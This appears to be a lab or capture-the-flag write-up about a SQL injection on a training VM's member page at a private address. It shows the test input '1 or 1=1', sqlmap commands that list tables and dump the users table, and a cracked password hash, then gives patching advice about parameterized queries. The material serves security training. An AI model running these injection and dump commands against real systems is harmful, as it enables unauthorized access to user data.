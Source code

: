 # 01_Unsercure_Search_By_Id_SQLINJECTION

Unsecure sql request form in the page:
http://192.168.99.100/index.php?page=member

## How to see it

Go on the page mentionned before.
Whenever you are looking for an SQL injection you want to check if the page is injectable. You can either check this with sqlmap
or you can try to type an SQL request responding true everytime such like this one:
```bash
1 or 1=1
```
Whenever we type this one we realise that this page can be injected. This is a major security problem.

## How to abuse of it

We are going to use a tool which will help us to inject this sql. It is Sqlmap.
So we can basically print the list of the database that we are intersted in with this command:
```bash
sqlmap -u http://192.168.99.100/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
```
Then we can make a dump of the database we are interested in, so the user one:
```bash
sqlmap -u http://192.168.99.100/index.php\?page\=member\&id\=1\&Submit\=Submit\# --dump -T users
```
And here we are now we can decrypt the password with the asked in the command request:
```bash
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## How to patch it

Don't use dynamic SQL – don't construct queries with user input: Even data sanitization routines can be flawed.
So use prepared statements, parameterized queries or stored procedures instead whenever possible. ORM IS GOOD USE IT
